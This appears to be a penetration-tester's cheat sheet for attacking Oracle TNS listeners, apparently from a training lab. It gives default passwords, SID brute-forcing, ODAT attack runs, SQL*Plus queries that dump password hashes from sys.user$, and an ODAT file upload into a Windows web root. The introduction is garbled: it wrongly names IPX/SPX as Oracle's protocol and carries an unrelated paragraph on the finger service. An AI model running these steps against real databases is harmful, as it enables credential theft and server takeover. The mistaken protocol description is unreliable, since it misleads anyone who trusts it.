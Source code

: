 # Oracle TNS (Oracle Transparent Network Substrate)

[IPX/SPX] is a protocol used by Oracle databases for communication between clients and servers. It is often used in environments where Oracle databases are deployed.

[finger service] is a network service that allows users to query information about other users on a network. It can be used to gather information about users, such as their login names, home directories, and other details.

Can be remotely managed in Oracle 8i/9i but not in Oracle 10g and later versions.

# Default Configuration

- **Port**: 1521 (default port for Oracle TNS)
- only accepts connections from authenticated users 
- **Configuration File**: 
    - `listener.ora` (located in `$ORACLE_HOME/network/admin/`)
    - `tnsnames.ora` (also in `$ORACLE_HOME/network/admin/`)

- **Default Passwords**:
    - Oracle 9 -> 'CHANGE_ON_INSTALL'
    - Oracle 10 -> no default password set
    - Oracle DBSNMP -> 'dbsnmp'

# ODAT (Oracle Database Attack Tool)

``` bash 

git clone https://github.com/quentinhardy/odat.git

./odat.py all -s 10.129.204.235

```

# Scanning 

``` bash

nmap -sV -p 1521 <target_ip> --open

```

# Nmap - SID Bruteforcing

``` bash

sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

```

# SQLplus

``` bash

sqlplus <username>/<password>@<host>:<port>/<service_name> as sysdba

select table_name from all_tables;

select * from user_role_privs;

select name, password from sys.user$;

```

# Oracle RDBMS - File Upload

``` bash

./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

```

# Tools Setup

``` bash
[!bash!]$ wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
sudo mkdir -p /opt/oracle
sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
source ~/.bashrc
cd ~
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip install python-libnmap
git submodule init
git submodule update
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome

```







